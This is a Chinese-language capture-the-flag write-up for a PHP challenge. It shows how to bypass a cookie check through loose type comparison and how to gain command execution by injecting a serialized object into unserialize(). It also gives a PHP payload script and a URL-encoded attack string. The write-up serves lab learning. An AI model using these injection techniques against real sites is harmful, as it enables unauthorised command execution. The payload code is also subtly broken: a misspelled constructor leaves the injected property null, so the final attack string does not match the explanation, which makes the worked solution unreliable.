

# WHUCTF Easy PHP

绕过 + 反序列化

## Analysis

### Source Code

	<?php
	error_reporting(0);
	include 'flag.php';
	highlight_file(__FILE__);
	
	if (!$_COOKIE['admin']) {
	    exit("\nNot authenticated.\n");
	}
	
	if (!preg_match('/^{"hash": [\w\"]+}$/', $_COOKIE['admin'])){
	    exit("还看不懂正则表达式? 还不快去百度! \n");
	}
	$session_data = json_decode($_COOKIE['admin'], true);
	
	if ($session_data['hash'] != strtoupper(MD5($flag))) {
	    echo("给你个提示吧 \n");
	    for ($i = 0; $i < 32; $i++) {
	        echo(ord(MD5($flag)[$i]) >> 6);
	    }
	    exit("\n");
	}
	
	class WHUCTF {
	    protected $stu;
	    function __construct() {
	        $this->stu = new Study();
	    }
	    function __destruct() {
	        $this->stu->action();
	    }
	}
	class Study {
	    function action() {
	        echo "CTF 真好玩~";
	    }
	}
	class Evil {
	    function action() {
	        system('cat ./flag.php');
	    }
	}
	
	echo "这么明显了,你懂我意思吧";
	unserialize($_GET['whuctf']);

这里有两个绕过点：

1）首先构造合适的 `Cookie:admin={"hash": xxxx}`，
这里的`xxxx`必须为字母数字下划线组成的字符串，
但是这个`xxxx`的值需要与`md5($flag)`弱相等。

分析下面的源码：

	if ($session_data['hash'] != strtoupper(MD5($flag))) {
	    echo("给你个提示吧 \n");
	    for ($i = 0; $i < 32; $i++) {
	        echo(ord(MD5($flag)[$i]) >> 6);
	    }
	    exit("\n");
	}

结合提示：

	给你个提示吧 
	00111110000000110000000101011110
 
它给的提示其实是将每一位右移6之后得到的结果：`00111110000000110000000101011110`，其中的`echo(ord(MD5($flag)[$i]) >> 6);`
输出flag md5每一位右移6位后的结果，分析一下：

若是字母输出1，数字输出0，我们可以判断出flag md5值前2位小于64为数字。再通过php弱类型比较：

	if ($session_data['hash'] != strtoupper(MD5($flag))) {
	    echo("给你个提示吧 \n");
	    for ($i = 0; $i < 32; $i++) {
	        echo(ord(MD5($flag)[$i]) >> 6);
	    }
	    exit("\n");
	}

利用burp从0到99爆破，在61就发现绕过了这一限制，所以最终Cookie设置为：`Cookie:admin={"hash": 61}`

绕过第一关！！！

### 非预期：

这上面是一个预期解，还有一个非预期解，由于正则过滤不严，本来hash值的内容只应允许输入md5包含的字符即\[0-9a-f\]

若输入值为`admin={"hash": True}`，使用json_decode可以将hash值解析为布尔值True，而我们知道php弱类型特性：

因此也可以通过这个部分绕过。

## unserialize

### 接下来就是构造反序列化：

	class WHUCTF {
	    protected $stu;
	    function __construct() {
	        $this->stu = new Study();
	    }
	    function __destruct() {
	        $this->stu->action();
	    }
	}
	class Study {
	    function action() {
	        echo "CTF 真好玩~";
	    }
	}
	class Evil {
	    function action() {
	        system('cat ./flag.php');
	    }
	}
	
	echo "这么明显了,你懂我意思吧";
	unserialize($_GET['whuctf']);

反序列化原理是你正常序列化出来是：`O:6:"WHUCTF":1:{s:6:" * stu";O:5:"Study":0:{}}`

然后改成：`O:6:"WHUCTF":1:{s:6:" * stu";O:4:"Evil":0:{}}`，再`urlencode`一下。

### Payload
	<?php
	class WHUCTF {
		protected $stu;
		function __constsuct(){
			$this->stu = new Evil();
		}
		function __destruct(){
			$this->stu->action();
		}
	}
	class Study{
		function action(){
		echo "CTF 真好玩~";
		}
	}
	class Evil{
		function action(){
			system('cat./flag.php');
		}
	}
	$a = new WHUCTF();
	echo serialize($a);				// O:6:"WHUCTF":1:{s:6:"*stu";N;}
	echo urlencode(serialize($a));	// O%3A6%3A%22WHUCTF%22%3A1%3A%7Bs%3A6%3A%22%00%2A%00stu%22%3BN%3B%7D

结果：

	dmsj.php?whuctf=O%3A6%3A%22WHUCTF%22%3A1%3A%7Bs%3A6%3A%22%00%2A%00stu%22%3BN%3B%7D
